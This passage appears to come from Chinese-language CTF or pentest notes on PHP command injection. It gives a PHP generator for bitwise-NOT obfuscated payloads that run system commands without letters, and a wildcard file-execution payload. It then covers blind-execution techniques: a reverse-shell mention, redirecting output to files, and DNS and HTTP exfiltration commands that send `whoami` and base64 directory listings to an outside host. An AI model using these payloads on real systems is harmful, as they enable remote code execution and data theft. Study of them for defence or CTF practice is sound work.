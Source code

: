 过滤掉`$`，将无法构造变量。

在PHP7下，可以利用`('phpinfo')()`语法，生成执行单个命令的payload。

```php
<?php
$func = 'system';
$cmd = 'whoami';

// system('whoami');
// PHP 7!
echo '(~' . urlencode(~$func) . ')(~' . urlencode(~$cmd) . ');'; // (~%8C%86%8C%8B%9A%92)(~%88%97%90%9E%92%96);
```

```php
?><?=`. /???/????????[@-[]`;?>
```
- 过滤`_`
- 过滤`;`


https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html

### `disable_function`绕过
### 无回显
- 反弹shell

https://your-shell.com/

- 结果写入文件，二次返回

主要利用是输出重定向符号`>`将标准输出重定向到`可写`、`可访问`的目录下。

```bash
# 将输出结果保存到当前目录下的1.txt文件
ls -al>1.txt
```

- DNS信道

利用DNS解析特殊构造的域名，通过查看DNS解析记录获得结果。平台有 [dnslog.cn](http://dnslog.cn/)、[https://requestrepo.com/](https://requestrepo.com/)

```bash
ping `whoami`.example.com
curl `whoami`.example.com
wget -O- `ls|base64`.example.com
```

- HTTP信道

利用HTTP协议，GET或POST请求，获取结果。通常，如果数据量大，通过POST方法。

[https://requestrepo.com/](https://requestrepo.com/)

```bash
# 通过URL传送
curl example.com/`whoami`
curl example.com/`ls|base64`
wget -O- example.com/`ls|base64`

# 通过POST
curl -X POST --data `ls|base64` example.com
wget --post-data "$(ls|base64)" -O- example.com
```
